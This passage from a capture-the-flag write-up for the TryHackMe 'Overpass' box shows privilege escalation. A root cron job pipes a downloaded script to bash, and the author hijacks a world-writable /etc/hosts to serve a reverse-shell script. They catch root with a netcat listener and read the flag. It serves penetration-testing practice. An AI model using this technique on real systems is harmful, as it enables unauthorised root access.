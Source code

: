 So as root the cronjob is downloading the build script and piping it to bash. This looks to be our path to root if I can manipulate it. 

```highlight
james@overpass-prod:~$ ls -lah /etc/crontab
-rw-r--r-- 1 root root 822 Jun 27 04:18 /etc/crontab
james@overpass-prod:~$ 
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27 02:39 /etc/hosts
james@overpass-prod:~$ 
```

I don't have permissions to change the cron job however I can change the hosts file and change the IP to point to my machine. I create the /downloads/src folders and a text file called buildscript.sh with the bash one liner found on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I started a python webserver on port 80 and a netcat listener on port 8080 and waited for the cron job to run.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.70.101] 39612
bash: cannot set terminal process group (21767): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# 
```

I have root! Now to grab the flag.

```highlight
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f336f8c359{{REDACTED}}
root@overpass-prod:~# 
```

### The hidden code

During our enumeration we were able to download a Linux binary and the source code of the password manager however they were not used to root on the machine. Lets take a look at them now. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $cat buildscript.sh 
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

The build script.sh is a very simple bash script to build the binaries. So I next ran the Linux binary to see what the binary did.
